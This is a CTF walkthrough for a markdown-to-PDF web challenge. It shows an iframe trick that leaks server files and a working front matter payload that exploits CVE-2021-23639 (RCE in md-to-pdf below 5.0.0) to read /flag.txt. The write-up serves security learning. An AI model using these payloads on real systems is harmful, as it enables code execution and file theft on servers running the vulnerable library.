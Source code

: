 # My little website

## Challenge

```txt
I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
```

## Walkthrough

We're given a webapp that takes markdown input and converts it to a PDF. First thing I tried was writing some HTML code to list files in the directory.

```md
<iframe src="/" height=600 width=700></iframe>
```

![ls.png](ls.png)

That worked pretty well! From here I leaked files from the server that I found interesting such as `package-lock.json`, `index.js` and the `patches` folder.

package-lock.json

```json
...
"packages": {
    "": {
        "name": "pdf_thingy",
        "version": "1.0.0",
        "license": "ISC",
        "dependencies": {
            "express": "4.18.1",
            "md-to-pdf": "4.0.0",
            "patch-package": "^6.4.7"
        }
    },
...
```

patches/

```diff
diff --git a/node_modules/md-to-pdf/dist/lib/config.js b/node_modules/md-to-pdf/dist/lib/config.js
index bf571bd..e24db15 100644
--- a/node_modules/md-to-pdf/dist/lib/config.js
+++ b/node_modules/md-to-pdf/dist/lib/config.js
@@ -21,7 +21,7 @@ exports.defaultConfig = {
 left: '20mm',
 },
 },
- launch_options: {},
+ launch_options: {args: ["--no-sandbox"]},
 md_file_encoding: 'utf-8',
 stylesheet_encoding: 'utf-8',
 as_html: false,
```

index.js

```js
// ...
const { mdToPdf } = require('md-to-pdf')

app.post('/submit', async (req, res) => {
    const md_string = req.body.md_data
    const pdf = await mdToPdf({ content: md_string, langugage: 'javascript' }).catch(console.error);
// ...
```

The author was using an outdated version of `md-to-pdf` and given that the `--no-sandbox` argument was being passed it was pretty clear that this was the library I'd have to exploit. I found [CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880), an RCE exploit that affected `md-to-pdf` < 5.0.0.

> Affected versions of this package are vulnerable to Remote Code Execution (RCE) due to utilizing the library gray-matter to parse front matter content, without disabling the JS engine.

Modifying the POC slightly I was able to execute nodejs and read the flag into the PDF file.

```md
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').join()}"; display: block }`,
}
---
```

## Solve

`CTF{pdf_c0nt1nu3s_70_5uCK}` (author spitting facts)